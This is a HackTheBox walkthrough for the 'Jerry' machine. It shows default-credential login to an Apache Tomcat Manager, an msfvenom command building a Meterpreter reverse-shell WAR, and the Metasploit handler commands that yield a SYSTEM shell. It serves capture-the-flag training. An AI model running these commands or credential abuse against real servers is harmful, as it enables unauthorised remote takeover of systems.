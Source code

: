 ```yaml
---
layout: post
title: HackTheBox - Jerry
categories: htb
permalink: /htb-jerry
---
```




Starting off with nmap to determine what ports are open, what services are running on the ports and what are their versions, thus determining the target !

So there is only 1 port open, which is 

+ *8080 http Apache Tomcat*

Let's look at the web page and do some enumeration to find any vulnerabilities.

It looks like you this is the default apache tomcat page running version 7.0.88. There are also 3 other web pages; Server Status, Manager App, Host Manager. From experience I know that Host Manager will redirect me to Manager App once I log in successfully, so I will skip it. Let's see what we can find in Server Status page.

As I tried to access the page a login prompt popped up, as usual, but I was able to guess the default credentials (admin:admin). Once I accessed the page I was able to see what is the Hostname of the machine, OS name and version and system architecture.

I now know with which OS I have to deal. Now, went back to index.html, and tried to login to Manager App. And here I found something interesting. The developer left the default credentials, and tomcat was nice enough to show the default error screen, when I tried to login with wrong username and password.

I grabbed the credentials from the error page and tried to login to the Manager App, and... Success !

As I'm now logged in as admin, Tomcat has a feature to upload .war files, which I am able to exploit by using msfvenom to generate a reverse shell with .war extension. War files are also like zip files, they store other files inside it, and by this it means that once I upload a war file to tomcat and try to access it, instead of getting the reverse shell immediately, I will have to specify the actual .jsp file inside the war file. And I can do this by simply unzipping the war file to see the actual payload file.

```
#MSFVenom command to generate .war malicious file.
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f war -o ev1l.war
```
 
I opened Metasploit and set the handler I need to use, after that i set the payload and the options to be able to get a connection back.

```
#In Metasploit
$ use multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST <LocalIP>
$ set LPORT 4444
$ exploit
```

Once I uploaded the file I unzipped it on my box, checked the jsp file name and accessed it in the web browser to trigger the payload and get reverse shell.



As I now have a meterpreter reverse shell in metasploit I can check now what user I have access to. And it turns out that I was logged in as NT AUTHORITY\SYSTEM. Game Over !

That's how you do Jerry from HackTheBox !
